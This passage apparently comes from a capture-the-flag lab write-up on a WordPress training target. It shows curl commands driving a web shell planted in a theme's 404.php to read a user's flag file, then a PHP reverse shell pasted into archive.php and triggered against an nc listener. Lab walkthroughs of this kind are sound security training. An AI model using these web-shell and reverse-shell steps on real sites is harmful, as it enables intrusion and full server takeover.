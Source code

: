 I have created a webshell. Now I can send my linux commands :

```bash
url='http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php'
curl "$url?cmd=ls+-la+/home/erika"
curl "$url?cmd=cat+/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt"
```

I get the file `d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt` content and there is the flag inside of it.

### Reverse Shell

Then I copy the content of the file `/usr/share/webshells/php/php-reverse-shell.php` at the beggining of the file `archive.php` and edit the IP and PORT variables :

<figure><img src="../../.gitbook/assets/script.png" alt=""><figcaption></figcaption></figure>

I open a listener on the attacker :

```bash
nc -lnvp 1234
```

I send a request to :

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/archive.php
```
